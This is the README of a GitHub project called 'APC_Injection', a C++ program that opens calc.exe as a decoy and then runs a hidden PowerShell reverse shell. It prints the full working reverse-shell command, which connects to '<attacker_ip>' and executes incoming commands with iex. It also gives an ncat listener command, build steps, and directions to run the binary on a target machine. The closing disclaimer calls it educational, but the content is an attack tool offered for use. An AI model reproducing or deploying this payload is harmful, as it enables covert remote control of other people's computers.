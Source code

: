 # APC_Injection Program

## Overview

The **APC_Injection** program is a tool designed to demonstrate advanced process injection techniques. It includes functionalities such as launching benign programs (`calc.exe`) to mislead analysts and executing a hidden reverse shell using PowerShell for remote control. The program emphasizes stealth and modularity, with a focus on simulating real-world adversarial behaviors.

### Contents
- [Overview](#overview)
- [Features](#features)
- [Components](#components)
- [PowerShell Reverse Shell](#powershell-reverse-shell)
- [Configuration](#configuration)
- [Setting Up a Listener](#setting-up-a-listener)
- [How to Compile and Run](#how-to-compile-and-run)
- [Disclaimer](#disclaimer)

---

## Features

1. **Launch Calculator (`calc.exe`)**: Simulates benign behavior to distract from the malicious payload.
2. **Launch Reverse Shell**: Establishes a hidden reverse TCP connection for remote command execution.
3. **Stealth Execution**: Uses PowerShell commands with options such as `-NoP -NonI -W Hidden` to ensure invisibility.
4. **Modular Code**: Organized into separate files for maintainability and extensibility.

---

## Components

### 1. `Main.cpp`
The main entry point of the program:
- Calls `LaunchCalc()` to open the calculator.
- Calls `LaunchReverseShell()` to execute a reverse shell in hidden mode.

### 2. `ShellOperations.cpp`
Contains implementations for:
- `LaunchCalc()`: Opens the calculator using `system("calc.exe")`.
- `LaunchReverseShell()`: Builds and executes a PowerShell reverse shell command.

### 3. `ShellOperations.h`
Header file declaring the functions implemented in `ShellOperations.cpp`:
```cpp
#ifndef SHELL_OPERATIONS_H
#define SHELL_OPERATIONS_H

void LaunchCalc();
void LaunchReverseShell();

#endif // SHELL_OPERATIONS_H


PowerShell Reverse Shell
The reverse shell connects back to a remote listener, enabling remote command execution.

Command Structure
powershell
Copy code
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "
$client = New-Object System.Net.Sockets.TCPClient('<attacker_ip>', <attacker_port>);
$stream = $client.GetStream();
[byte[]]$buffer = 0..65535|%{0};
while(($i = $stream.Read($buffer, 0, $buffer.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($buffer, 0, $i);
    $sendback = (iex $data 2>&1 | Out-String);
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    $stream.Flush()};
$client.Close()"
Configuration
Replace <attacker_ip> with the IP address of your machine.
Replace <attacker_port> with the port number where the listener is running (e.g., 443).
Setting Up a Listener
To receive the reverse shell connection, set up a listener on your machine.

Netcat Listener Command
bash
Copy code
ncat -lvnp 443
This command listens for incoming connections on port 443.

How to Compile and Run
Prerequisites
Operating System: Windows
Compiler: MinGW/G++
Privileges: Administrator privileges are required to execute the reverse shell.
Compilation
Use the following command to compile the program:

bash
Copy code
g++ -pipe src/Main.cpp src/ShellOperations.cpp -Iincludes -o APC_Injection.exe
Running the Program
After compilation, execute the program on the target machine:

bash
Copy code
APC_Injection.exe
Disclaimer
This program is for educational purposes only. Unauthorized use of this tool on any system without explicit permission is illegal and unethical. The authors are not responsible for any misuse of this software.

By using this program, you agree to only use it in controlled environments where explicit permission is granted for ethical hacking and educational research.


